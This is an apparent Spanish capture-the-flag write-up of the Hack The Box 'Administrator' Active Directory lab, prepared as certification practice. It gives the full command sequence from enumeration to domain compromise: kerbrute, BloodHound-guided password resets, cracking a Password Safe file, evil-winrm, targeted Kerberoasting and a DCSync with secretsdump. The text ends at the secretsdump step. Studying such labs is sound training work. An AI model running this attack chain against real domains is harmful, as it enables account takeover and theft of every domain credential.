# Administrator — Hack The Box (práctica CPTS)

**Plataforma:** Hack The Box
**Dificultad:** 🟡 Media
**SO:** Windows (Active Directory)
**Certificación:** Práctica adicional para el CPTS (Certified Penetration Testing Specialist)
**Fecha de resolución:** 2026
**Técnicas:** Nmap · `kerbrute` · BloodHound (abuso de ACLs encadenado) · Reset de contraseña (`net rpc password`) · FTP → base de datos **Password Safe** (`.psafe3`) crackeada offline · **Kerberoasting dirigido** (`targetedKerberoast.py`) vía `GenericWrite` · **DCSync** (`secretsdump`) → pass-the-hash → SYSTEM
**Idioma:** Español — [🇬🇧 English version](./Administrator_Writeup_EN.md)

---

## Índice
1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración — usuarios válidos y BloodHound](#2-enumeración--usuarios-válidos-y-bloodhound)
3. [Acceso inicial — cadena de abuso de ACLs](#3-acceso-inicial--cadena-de-abuso-de-acls)
4. [Obtención de shell](#4-obtención-de-shell)
   - [Escalada de privilegios — Kerberoasting dirigido y DCSync](#escalada-de-privilegios--kerberoasting-dirigido-y-dcsync)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)
7. [Glosario de herramientas y comandos](#7-glosario-de-herramientas-y-comandos)
8. [Flujo de ataque](#8-flujo-de-ataque)

---

## 1. Reconocimiento

```bash
ping -c 1 10.129.92.32
```

> 🛠️ **`ping`** — comprueba disponibilidad del host por ICMP. TTL **127** → sistema **Windows**.



Escaneo completo de puertos TCP:

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- -oN AllPorts 10.129.92.32
```

> 🛠️ **`nmap -sS -Pn -vvv --min-rate 5000 --open -n -p-`** — escaneo SYN de los 65535 puertos: `-sS` (sigiloso), `-Pn` (ignora el estado del ping), `--min-rate 5000` (acelera el envío), `--open` (solo puertos abiertos), `-n` (sin resolución DNS).



```bash
enum-nmap AllPorts
```

> 🛠️ **`enum-nmap`** — script propio que resume la salida de Nmap: IP, TTL, SO estimado y lista de puertos lista para el siguiente `-p`.



> 💡 25 puertos abiertos, entre ellos **21 (FTP)** junto al conjunto clásico de un **controlador de dominio de Active Directory** (53, 88, 389, 445, 464, 636, 3268, 3269, 5985). Un FTP abierto en un DC es poco común y merece atención especial — será clave en el acceso inicial.

Escaneo de versión y scripts por defecto:

```bash
nmap -sS -Pn -sCV -T5 -n -p21,53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49668 -oN Ports 10.129.92.32
```

> 🛠️ **`-sCV`** combina `-sC` (scripts por defecto de Nmap) con `-sV` (detección de versión de servicio).



```
21/tcp  open  ftp   Microsoft ftpd
389/tcp open  ldap  Microsoft Windows Active Directory LDAP (Domain: administrator.htb, ...)
Service Info: Host: DC; OS: Windows
```

> 💡 Dominio **`administrator.htb`**, controlador de dominio **`DC`**.

Añadimos el dominio al `/etc/hosts`:



## 2. Enumeración — usuarios válidos y BloodHound

```bash
kerbrute userenum --dc 10.129.92.32 --domain administrator.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

> 🛠️ **`kerbrute userenum`** — abusa de la respuesta diferenciada del KDC ante un `AS-REQ` para enumerar usuarios válidos de Kerberos sin necesitar ninguna contraseña correcta.



```
michael, benjamin, administrator, emily, olivia, ethan
```

### Recolectando el grafo de permisos con BloodHound

Esta máquina se resuelve siguiendo, paso a paso, el **grafo de relaciones de Active Directory** — no hay un único exploit, sino una cadena de permisos (ACLs) que hay que descubrir y abusar de forma repetida. Con las credenciales de dominio dadas al inicio (`olivia:ichliebedich`), recolectamos esa información:

```bash
bloodhound-python -u 'olivia' -p 'ichliebedich' -d administrator.htb -ns 10.129.92.32 -c All --zip
```

> 🛠️ **`bloodhound-python`** — recolector de BloodHound para Linux; vuelca usuarios, grupos, ACLs, sesiones y relaciones de confianza del dominio en ficheros JSON.

```bash
bloodhound-start
```

> 🛠️ **`bloodhound-start`** — arranca Neo4j (la base de datos de grafos que usa BloodHound) y la interfaz web local donde se analizan los datos recolectados.

En la interfaz gráfica, buscamos qué puede controlar `olivia`:



```
olivia --[GenericAll]--> michael
```

## 3. Acceso inicial — cadena de abuso de ACLs

### ¿Qué permite `GenericAll` y cómo se abusa?

**`GenericAll`** es el permiso ACL más amplio posible sobre un objeto de Active Directory: control total, equivalente a ser propietario. Sobre una cuenta de usuario, esto incluye poder **resetear su contraseña directamente**, sin necesidad de conocer la actual — a diferencia de un cambio de contraseña normal, que exige la contraseña antigua.

```bash
net rpc password "michael" "Arabot3105" -U "administrator.htb"/"olivia"%"ichliebedich" -S 10.129.92.32
```

> 🛠️ **`net rpc password <usuario> <nueva_contraseña> -U <dominio>/<usuario_con_permiso>%<contraseña>`** — utilidad de Samba que invoca el RPC de cambio de contraseña remoto; con `GenericAll`/`User-Force-Change-Password` sobre la cuenta objetivo, no pide la contraseña antigua.



```bash
crackmapexec smb 10.129.92.32 -u michael -p 'Arabot3105'
```



Repetimos la consulta de BloodHound, ahora sobre `michael`:



```
michael --[ForceChangePassword]--> benjamin
```

> 💡 **`ForceChangePassword`** es un derecho extendido más acotado que `GenericAll`: solo permite forzar el cambio de contraseña de la cuenta objetivo, nada más — pero es exactamente lo que necesitamos para seguir la cadena.

```bash
net rpc password "benjamin" "Arabot3105" -U "administrator.htb"/"michael"%"Arabot3105" -S 10.129.92.32
```



```bash
crackmapexec smb 10.129.92.32 -u benjamin -p 'Arabot3105'
```



### De una cuenta de dominio a un fichero de credenciales

Con `benjamin`, probamos el servicio FTP detectado en el reconocimiento:

```bash
ftp 10.129.92.32
# benjamin / Arabot3105
ftp> get Backup.psafe3
```

> 🛠️ **`ftp`** — cliente de línea de comandos para FTP; aquí autenticado con las credenciales de dominio de `benjamin` (el servicio FTP delega la autenticación en el propio Active Directory).


> 💡 **`.psafe3`** es el formato de base de datos cifrada de **Password Safe**, un gestor de contraseñas de código abierto que usa cifrado **Twofish** de 256 bits. Todo su contenido se protege con una única **contraseña maestra** — si esa contraseña es débil, toda la base de datos cae.



## 4. Obtención de shell

Extraemos el hash de la contraseña maestra y lo crackeamos offline:

```bash
pwsafe2john Backup.psafe3 > hash
```

> 🛠️ **`pwsafe2john`** — extrae de un fichero `.psafe3` el hash de su contraseña maestra en un formato compatible con John the Ripper.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```




```
tekieromucho
```

Abrimos la base de datos con esa contraseña maestra usando el cliente gráfico de Password Safe:

```bash
pwsafe Backup.psafe3
```





```
olivia:ichliebedich
alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur
```



> 💡 Una sola base de datos de contraseñas mal protegida filtra de golpe las credenciales de **cuatro** cuentas de dominio distintas — el tipo de hallazgo que, en una cadena de ACL abuse, puede saltar directamente varios pasos de la cadena.

Validamos las nuevas credenciales contra WinRM:

```bash
crackmapexec winrm 10.129.92.32 -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```

> 🛠️ **`crackmapexec winrm`** — valida credenciales contra el servicio WinRM; el marcador `(Pwn3d!)` indica que, además de válidas, permiten ejecución de comandos remotos.



```bash
evil-winrm -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -i 10.129.92.32
```



`user.txt` confirmado en el escritorio de `emily` — primera flag.

> 🔒 El contenido exacto de `user.txt` no se publica en este writeup a propósito, aunque las capturas muestran su lectura — ver la política de flags en la introducción de este repositorio.

## Escalada de privilegios — Kerberoasting dirigido y DCSync

Volvemos a BloodHound, esta vez centrados en `emily`:



```
emily --[GenericWrite]--> ethan
```

### ¿Qué permite `GenericWrite` y por qué habilita Kerberoasting?

**`GenericWrite`** permite modificar la mayoría de atributos de un objeto — sin llegar al control total de `GenericAll`, pero suficiente para escribir, por ejemplo, el atributo **`servicePrincipalName`** de una cuenta. Como ya vimos en otras máquinas, cualquier cuenta de usuario con un SPN asociado es objetivo de **Kerberoasting**: cualquier usuario autenticado del dominio puede solicitar un ticket de servicio (TGS) para ella, cifrado con la clave derivada de su contraseña.

La técnica de **Kerberoasting dirigido** (*targeted Kerberoasting*) automatiza exactamente este abuso: usando `GenericWrite` sobre una cuenta que normalmente **no** tiene SPN, le asigna uno **temporalmente**, solicita el TGS correspondiente, y lo retira — dejando la cuenta en su estado original, pero con un hash crackeable ya en nuestro poder.

```bash
python3 targetedKerberoast.py -d administrator.htb -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' --dc-ip 10.129.92.32 -v
```

> 🛠️ **`targetedKerberoast.py`** ([ShutdownRepo](https://github.com/ShutdownRepo/targetedKerberoast)) — automatiza el ciclo completo: añade un SPN temporal a cada cuenta sobre la que el usuario tenga `GenericWrite`/`WriteProperty`, solicita su TGS, lo imprime en formato `$krb5tgs$`, y elimina el SPN añadido.



```
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$...
```

Crackeamos el hash TGS offline:

```bash
hashcat -m 13100 hash1 /usr/share/wordlists/rockyou.txt
```

> 🛠️ **`hashcat -m 13100`** — modo específico para hashes Kerberos 5 TGS-REP etype 23 (el formato que produce un Kerberoasting clásico o dirigido).



```
limpbizkit
```

### El último eslabón: derechos de replicación (DCSync)

Consultamos BloodHound de nuevo, ahora para `ethan`:



```
ethan --[GetChanges, GetChangesAll]--> administrator.htb (objeto dominio)
```

> 💡 **`GetChanges`** (`DS-Replication-Get-Changes`) y **`GetChangesAll`** (`DS-Replication-Get-Changes-All`) son los dos derechos extendidos que un controlador de dominio necesita conceder a otro para replicar el directorio entre ellos. Cuando una cuenta de usuario normal los tiene sobre el objeto del dominio, puede usar el protocolo de replicación (**MS-DRSR**) para pedirle al DC real que le "replique" las credenciales de **cualquier cuenta**, incluido Administrator — esto es el ataque **DCSync**, y no requiere ejecutar código en el controlador de dominio.

```bash
secretsdump.py administrator.htb/ethan:limpbizkit@10.129.92.32
```

> 🛠️ **`secretsdump.py`** (Impacket) — con credenciales y los derechos de replicación adecuados, implementa el protocolo DRSUAPI/MS-DRSR para solicitar al DC el volcado completo de `NTDS.dit` (todos los hashes del dominio), sin necesidad de acceso a disco ni ejecución de código en el controlador.

